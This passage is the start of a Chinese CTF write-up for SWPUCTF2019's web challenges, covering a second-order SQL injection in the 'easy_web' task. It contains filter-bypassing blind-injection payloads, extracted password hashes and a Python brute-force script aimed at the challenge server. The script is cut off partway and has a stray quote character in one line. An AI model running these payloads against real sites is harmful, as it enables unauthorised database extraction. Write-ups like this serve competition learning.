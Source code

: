 ```yaml
---
title: SWPUCTF2019--web全wp
date: 2020-01-01 20:35:01
tags: writeup
---
```


**目录**


## 前言

这次的比赛我们队伍（mini-venom）全AK，也是连清人第一次的全AK，当然web是第二次AK了，上次是不久前的南邮CTF,理所当然的拿下了第一。之前的南邮比赛WEB也全AK了，不过那个稍微简单点。这次SWPUCTF难度稍大，还有一题java，并且每道题都有我的参与，纪念意义稍大，不得不吹下表哥们，猛的不行。我们很多思路都在wp上交流，所以基本上可以看到一步一步的思路。

## easy_web 

title的二次注入，在title处输入1' 可以看到报错

![](https://wulasite.top/mdimage/swpuctf2019/1.png)

初步fuzz了一下空格会被替换成空，所以可以用/**/，注释符、and、or、报错注入的函数都被禁止了不知道要找啥

0'/**/||/**/ascii(substr((select/**/pass/**/from/**/users/**/where/**/name='admin'),2,1))/**/>/**/52/**/||/**/'0不想写脚本。。。慢慢dump把admin 密码md5 53e217ad4c721eb9565cf25a5ec3b66e 没啥用 flag在数据库里咋找 还有一个id为1的flag用户 密码MD5是 f8ae51b4f44b623f665539af7d2b83f9  这个也爆破不出来



```python
#coding=utf-8
import requests as rq
import sys
import re

reload(sys)
sys.setdefaultencoding("utf8")

url='http://211.159.177.185:23456/addads.php'
url1='http://211.159.177.185:23456/empty.php'
url2='http://211.159.177.185:23456'
flag=""
cookies={'PHPSESSID':'53g3panpbnfcs8cmujt65m9cpc'}
headers={
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0'
}
for a in range(1,150):
    b=0
    for i in range(32,127):
        # post="0'/**/||/**/ascii(substr((select/**/pass/**/from/**/users/**/where/**/name='admin'),"+str(a)+",1))/**/=/**/"+str(i)+"/**/||/**/'0"
        # post="0'/**/||/**/ascii(substr((select/**/version()),"+str(a)+",1))/**/=/**/"+str(i)+"/**/||/**/'0"
        # post="0'/**/||/**/ascii(substr((select/**/database()),"+str(a)+",1))/**/=/**/"+str(i)+"/**/||/**/'0"
        post="0'/**/||/**/ascii(substr((select/**/group_concat(pass)/**/from/**/users/**/where/**/name='flag'),"+str(a)+",1))/**/=/**/"+str(i)+"/**/||/**/'0"
        data={'title':post,'content':"aaa",'ac':'add'}
        ”res=rq.post(url,headers=headers,data=data,cookies=cookies)
        # print res.text
        # exit()
        # print post
        abc=rq.get(url2,headers=headers,cookies=cookies)
        s=re.findall(r'<a href=\'detail\.php\?id=(\d+)\'>',abc.text)
        url3=url2+"/detail.php?id="+s[0]
```